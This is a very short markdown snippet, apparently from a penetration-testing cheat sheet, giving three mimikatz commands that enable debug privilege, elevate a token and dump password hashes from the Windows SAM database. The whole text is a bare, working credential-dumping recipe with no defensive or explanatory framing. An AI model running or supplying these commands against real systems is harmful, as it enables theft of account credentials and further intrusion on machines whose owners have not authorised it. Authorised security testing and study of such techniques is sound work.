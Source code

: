 ### mimikatz  

To dump password hashes from SAM database.  

```
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::sam
```
